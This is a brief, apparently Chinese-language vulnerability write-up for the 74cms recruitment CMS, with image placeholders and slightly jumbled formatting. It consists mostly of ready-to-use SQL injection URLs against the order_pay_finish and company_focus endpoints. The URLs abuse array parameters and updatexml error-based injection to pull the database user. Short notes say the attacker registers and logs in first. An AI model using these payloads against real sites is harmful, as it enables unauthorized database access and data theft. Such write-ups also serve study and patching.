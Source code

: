![image](../img/eb576065abe7eb8736ea73d185dfc7c0.png)

注册完成以后登录前台即可

```
url: http://74cms.test/index.php?m=&c=CompanyService&a=order_pay_finish&order_id[0]=match&order_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a `如果不登录的话，会显示这个样子

url:[http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus](http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus)` 
```

![image](../img/7760a97c1d2c7f60acb4f89aa4e362f3.png)

```
http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus&company_id[0]=match&company_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a 
```

